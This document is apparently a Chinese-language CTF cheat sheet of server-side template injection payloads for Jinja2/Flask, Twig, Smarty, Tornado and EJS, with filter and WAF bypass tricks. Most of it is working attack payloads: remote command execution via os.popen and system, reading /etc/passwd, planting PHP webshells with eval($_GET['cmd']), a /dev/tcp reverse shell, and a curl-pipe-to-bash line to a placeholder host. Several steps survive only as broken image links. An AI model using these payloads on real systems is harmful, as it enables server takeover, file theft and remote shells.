{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(199)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}


unicode编码
{{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(199)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("os")|attr("popen")("ls")|attr("read")()}}															
```

#### 3、使用十六进制编码或者八进制编码

把下划线都用\x5f来代替

```
code={{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[199]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["os"].popen("ls").read()}}
```

#### 4、使用base64编码



#### 5、格式化字符串

%c%(95)即下划线



在hackbar内提交需要对%进行编码为%25才能提交

如果在输入框中可以直接提交

---

## 中括号绕过点过滤

**1、用中括号[]代替点**

**python语法除了可以使用点'.'来访问对象属性外，还可以使用中括号'[]'**

```
{{''.__class__.__base__.__subclasses__()[117].__init__.__globals__['popen']('cat /etc/passwd').read()}}

使用中括号绕过点过滤
{{()['__class__']['__base__']['__subclasses__']()[117]['__init__']['__globals__']['popen']['cat /etc/passwd']['read']()}}
```

**2、用|attr()绕过**

**payload语句中不会用到点'.'和中括号'[]'**

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(199)|attr('__init__')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('cat /etc/passwd')|attr('read')()}}
```

---

## 绕过关键字过滤

过滤了"class" "arg“ "from" "value" "int" "globals"等关键字



---

### "+"拼接

```
{{()['__class__']}}		->		{{()['__cl'+'ass__']}}		

先构造完整payload
{{()['__class__']['__base__']['__subclasses__']()['__getitem__'](199)['__inti']['__globals__']['__getitem__']('os')['popen']('cat /etc/passwd')['read']()}}

用+拼接
{{()['__cl'+'ass__']['__ba'+'se__']['__subcl'+'asses__']()['__getitem__'](199)['__in'+'ti']['__gl'+'obals__']['__getitem__']('os')['po'+'pen']('cat /etc/passwd')['read']()}}
```

---

### jinjia2中的"~"拼接

```
{{()['__class__']}}			-->	 {{()[a~b]}}

先构造完整payload
{{()['__class__']['__base__']['__subclasses__']()['__getitem__'](199)['__inti']['__globals__']['__getitem__']('os')['popen']('cat /etc/passwd')['read']()}}

{{""[a~b][c~d][e~f]()[199][g~h][i~j]['os'][k~l]('cat /etc/passwd')['read']()}}
```

---

### 过滤器

**过滤器reverse**



**过滤器replace和过滤器join**



### 利用python的char()



---

## Length过滤器绕过数字过滤

通过length去计算字符串长度从而得到整数数字

```
{{a}}		#10
{{a}}		#30
{{a}}
10a*12个a-3个a=117个a				#117
也可以用+
```

**绕过数字过滤**



---

## 获取config文件

### **config**

```
{{config}}
```

flag可能隐藏在config文件内



### current_app

如果无法直接调用config

调用current_app相当与调用flask

```
{{url_for.__globals__['current_app'].config}}
```

```
{{get_flashed_messages.__globals__['current_app'].config}}

{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```

---

## 混合过滤

### dict()和join

```
dict()	# 用来创建一个字典
join:	# 将一个序列中的参数值拼接成字符串
```

```
{{a}}	创建字典a,键名benben，键值1	

{{a}}	创建字典a，join把参数值拼接成字符串
```

在无法使用引号的情况下，可使用dict()生成字典，配合join或者键名生成字符串

值不影响，拼接的只是键名

```
{{a}}
使用join拼接出字符串"__class__"
```

### 获取符号

利用flask内置函数和对象获取符号

```
{{ben}}
#获取下划线
{{ben}}
#获取空格
{{ben}}
#获取百分号
{{ben}}
```



---

### 实例解析1

```
**用得到空格**
```



---

### 实例解析2（WAF过滤'''，'"'，'_'，'.'，'['，']'，' '）

```
使用{{lipsum|string|list}}获取符号
```

第9位是空格，第18位是下划线

```


{{nine,eighteen}}
```

9个a统计数量得到数字9
计算得到数字18，注意这里不能用length，因为单双引号被过滤了

---

获取下划线



---

**全流程**

得到下划线和空格



得到\_\_globals\_\_



得到\_\_getitem\_\_



得到'os'



得到'cat flag'



最后得到read



最终payload：



---

# 其他模版

## Twig


Twig 1.x

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}//查看id

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}//查看flag
```

Twig 2.x,3.x


到了 Twig 2.x / 3.x 版本中，__self 变量在 SSTI 中早已失去了他的作用，但我们可以借助新版本中的一些过滤器实现攻击目的。


在 Twig 3.x 中，map 这个过滤器可以允许用户传递一个箭头函数，并将这个箭头函数应用于序列或映射的元素：

```
{{["id"]|map("system")}}
{{["id"]|map("passthru")}}
{{["id"]|map("exec")}}
```

使用sort过滤器

```
{{["id", 0]|sort("system")}}
{{["id", 0]|sort("passthru")}}
{{["id", 0]|sort("exec")}}
```

使用fitter过滤器

```
{{["id"]|filter("system")}}
{{["id"]|filter("passthru")}}
{{["id"]|filter("exec")}}
```

使用reduce过滤器

```
{{[0, 0]|reduce("system", "id")}}
{{[0, 0]|reduce("passthru", "id")}}
{{[0, 0]|reduce("exec", "id")}}
```

---

常用payload：

```
twig模板注入判断：
输入{{7*'7'}}
返回49则是twig
返回7777777则是jinja2

twig模板注入payload:
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
{{'/etc/passwd'|file_excerpt(1,30)}}
{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("whoami")}}
{{_self.env.enableDebug()}}{{_self.env.isDebug()}}
{{["id"]|map("system")|join(",")
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{["id",0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0,0]|reduce("system","id")|join(",")}}
{{['cat /etc/passwd']|filter('system')}}

```

---

## Smarty

**smarty常用payload**

```
{if phpinfo()}{/if}
{if system('ls')}{/if}
{ readfile('/flag') }
{if show_source('/flag')}{/if}
{if system('cat ../../../flag')}{/if} 

```

---

**利用手法**

```
(1) 获取smarty版本号：
{$smarty.version}

(2) 执行php代码
{php}echo `id`;{/php} //注意这个在3.x版本的时候就已经废弃了

(3) getshell
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']);?>",self::clearConfig())}

(4) RCE
{system('ls')}
{if show_source('/flag')}{/if}
{if passthru(“tac fl*”)}{/if}

反弹shell:
{system('curl http://xxx:xxxx/dev.txt|bash')}

```

---

 **任意文件读取**

- POC：`string:{include file='C:/Windows/win.ini'}`
- 漏洞原因：[{include}](https://www.smarty.net/docs/en/language.function.include.tpl) 标签所导致，被该标签引入的文件只会单纯的输出文件内容，就算引入 php 文件也是如此
- 版本限制：无

**CVE-2021-26120**

- POC：`string:{function name='x(){};system(whoami);function '}{/function}`
- 漏洞原因：[{function}](https://www.smarty.net/docs/en/language.function.function.tpl) 标签的 name 属性可以通过精心构造注入恶意代码
- 版本限制：在 3.1.39 版本修复，所以小于 3.1.39 能用

 **CVE-2021-26120**

- POC：`string:{function name='x(){};system(whoami);function '}{/function}`
- 漏洞原因：[{function}](https://www.smarty.net/docs/en/language.function.function.tpl) 标签的 name 属性可以通过精心构造注入恶意代码
- 版本限制：在 3.1.39 版本修复，所以小于 3.1.39 能用

 **CVE-2021-26119**

- POC:
    `string:{$smarty.template_object->smarty->_getSmartyObj()->display('string:{system(whoami)}')}`
    `string:{$smarty.template_object->smarty->enableSecurity()->display('string:{system(whoami)}')}`
    `string:{$smarty.template_object->smarty->disableSecurity()->display('string:{system(whoami)}')}`
    `string:{$smarty.template_object->smarty->addTemplateDir('./x')->display('string:{system(whoami)}')}`
    `string:{$smarty.template_object->smarty->setTemplateDir('./x')->display('string:{system(whoami)}')}`
    `string:{$smarty.template_object->smarty->addPluginsDir('./x')->display('string:{system(whoami)}')}`
    `string:{$smarty.template_object->smarty->setPluginsDir('./x')->display('string:{system(whoami)}')}`
    `string:{$smarty.template_object->smarty->setCompileDir('./x')->display('string:{system(whoami)}')}`
    `string:{$smarty.template_object->smarty->setCacheDir('./x')->display('string:{system(whoami)}')}`
- 漏洞原因：可以通过 {$smarty.template_object} 访问到 smarty 对象所导致
- 版本限制：这个漏洞还没有被修复，最新版本 4.1.0 跟 3.1.44 都能注入恶意代码

---

**其他操作**

```
smarty/libs/sysplugins/smarty_internal_data.php　　——>　　getStreamVariable() 这个方法可以获取传入变量的流


{self::getStreamVariable("file:///etc/passwd")}

写入webshell


{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php eval($_GET['cmd']); ?>",self::clearConfig())}

{$smarty.version}  #获取smarty的版本号
{php}phpinfo();{/php}  #执行相应的php代码

<script language="php">phpinfo();</script>   
{if phpinfo()}{/if}

查看目录
{if system('ls')}{/if}

读取文件
{if readfile('/flag')}{/if}
{if system('tac /flag')}{/if}
```

## tornado

[tornado模版注入全解](https://blog.csdn.net/miuzzx/article/details/123329244)

在tornado模板中，存在一些可以访问的快速对象,这里用到的是handler.settings，handler 指向RequestHandler，而RequestHandler.settings又指向self.application.settings，所以handler.settings就指向RequestHandler.application.settings了，这里面就是我们的一些环境变量。
简单理解handler.settings即可，可以把它理解为tornado模板中内置的环境配置信息名称，通过handler.settings可以访问到环境配置的一些信息，看到tornado模板基本上可以通过handler.settings一把梭。

```
{{handler.settings}}
```

---

tornado中无过滤情况下的可使用的payload

```
1、读文件



2、 直接使用函数
{{__import__("os").popen("ls").read()}}
{{eval('__import__("os").popen("ls").read()')}}

3、导入库
{{os.popen("ls").read()}}

4、flask中的payload大部分也通用
{{"".__class__.__mro__[-1].__subclasses__()[133].__init__.__globals__["popen"]('ls').read()}}
{{"".__class__.__mro__[-1].__subclasses__()[x].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}}

其中"".__class__.__mro__[-1].__subclasses__()[133]为<class 'os._wrap_close'>类
第二个中的x为有__builtins__的class

5、利用tornado特有的对象或者方法
{{handler.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
{{handler.request.server_connection._serving_future._coro.cr_frame.f_builtins['eval']("__import__('os').popen('ls').read()")}}

6、利用tornado模板中的代码注入
{% raw "__import__('os').popen('ls').read()"%0a    _tt_utf8 = eval%}{{'1'%0a    _tt_utf8 = str}}

```

---

过滤情况

```
1、过滤一些关键字如import、os、popen等（过滤引号该方法同样适用）
{{eval(handler.get_argument(request.method))}}
然后看下请求方法，如果是get的话就可以传?GET=__import__("os").popen("ls").read()，post同理


2、过滤了括号未过滤引号
{% raw "\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x70\x6f\x70\x65\x6e\x28\x27\x6c\x73\x27\x29\x2e\x72\x65\x61\x64\x28\x29"%0a    _tt_utf8 = eval%}{{'1'%0a    _tt_utf8 = str}}

3、过滤括号及引号
下面这种方法无回显，适用于反弹shell，为什么用exec不用eval呢？
是因为eval不支持多行语句。
__import__('os').system('bash -i >& /dev/tcp/xxx/xxx 0>&1')%0a"""%0a&data={% raw request.body%0a    _tt_utf8=exec%}&%0a"""

4、其他
通过参考其他师傅的文章学到了下面的方法（两个是一起使用的）
{{handler.application.default_router.add_rules([["123","os.po"+"pen","a","345"]])}}
{{handler.application.default_router.named_rules['345'].target('/readflag').read()}}


```

---

## EJS 模板注入

**EJS (Embedded JavaScript  templating) 是一种流行的 Node.js 模板引擎。当开发者将用户可控的数据直接插入到 EJS  模板中，而没有进行适当的转义或验证时，攻击者就可以注入并执行任意 JavaScript 代码。由于 EJS 通常在服务器端运行，这会导致 远程代码执行，这是最高危的漏洞之一。**

````
漏洞检测方法：
<%= 7*7 %>                    <!-- 显示49则存在漏洞 -->
<%= 2+3 %>                    <!-- 简单算术测试 -->


如果页面显示 `49`，则存在注入漏洞。
环境信息收集
<%= process.env %>             <!-- 环境变量 -->
<%= process.version %>         <!-- Node.js版本 -->
<%= process.platform %>        <!-- 操作系统 -->
<%= process.cwd() %>           <!-- 当前工作目录 -->
<%= __dirname %>               <!-- 脚本所在目录 -->


读取文件
<%= require('fs').readFileSync('/etc/passwd', 'utf8') %>
